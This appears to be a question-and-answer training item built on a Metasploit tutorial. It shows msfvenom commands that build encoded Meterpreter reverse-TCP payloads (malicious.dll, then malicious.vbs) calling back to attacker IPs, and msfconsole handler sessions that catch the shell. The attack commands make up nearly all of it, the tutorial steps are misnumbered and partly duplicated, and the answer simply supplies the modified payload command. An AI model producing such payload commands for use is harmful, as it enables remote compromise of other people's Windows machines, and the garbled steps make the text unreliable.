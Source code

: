 Context:```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x86/shikata_ga_nai -i 5 -o malicious.dll
### Step 1: Generate the executable payload

On the attacker's box, run `

`bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```

### Step 2: Copy the executable payload to box B
### Step 3: Set up the payload handler on box A
Box A is the attacker machine.
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

 Question: Generate a command using Metasploit’s msfvenom to create a Windows DLL payload for a reverse TCP connection, specifying the (windows/meterpreter/reverse_tcp) payload with placeholders for LHOST and LPORT. After structuring the command, modify it to change the output format from "dll" to "vbs" and set the output file name to "malicious.vbs". 

 Your response: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f vbs -e x86/shikata_ga_nai -i 5 -o malicious.vbs
```